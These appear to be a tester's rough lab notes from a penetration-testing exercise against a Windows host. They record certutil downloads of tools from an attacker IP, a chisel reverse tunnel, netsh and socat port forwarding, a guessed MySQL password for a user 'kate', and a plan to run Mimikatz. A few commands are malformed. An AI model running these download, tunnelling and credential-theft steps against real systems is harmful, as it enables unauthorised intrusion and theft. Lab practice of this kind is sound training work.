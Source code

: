 ```
python server
```

Download
```powershell
certutil.exe -urlcache -f http://192.168.49.140/chiselWin.exe chisel.exe
```
http://192.168.49.140.chiselWin.exe

![[Pasted image 20231219142156.png]]

Also uploaded via evil-winRM as version above was bad
```
upload chiselwin.exe
```
![[Pasted image 20231219143615.png]]


Server start on attack box
```
sudo ./chiselLin.sh server --port 8000 --reverse
```

Now client on MS02
```
./chiselwin.exe client 192.168.49.140:8000 R:3306:127.0.0.1:3306
```

Error with creating the tunnel
![[Pasted image 20231219153853.png]]


```powershell
certutil.exe -urlcache -f http://192.168.49.140/winp.exe wp.exe
```

Running winpeas
	Nothing

Need to Port forward to connect to the DB

```
netsh interface portproxy add v4tov4 listenaddress=127.0.0.1 listenport=3306 connectaddress=192.168.49.140 connectport=3306
```  

Chisel failed. Trying socat

```
socat tcp-listen:8001,reuseaddr,fork tcp:192.168.140.102:8000
```

```
socat tcp-:800,reuseaddr,fork tcp:localhost:8000
```

```powershell
certutil.exe -urlcache -f http://192.168.49.140/socatx64.exe sc.exe
```



mySQL password for kate is likely 
```
Hard4Core8!
```





Get Mimikatz on here
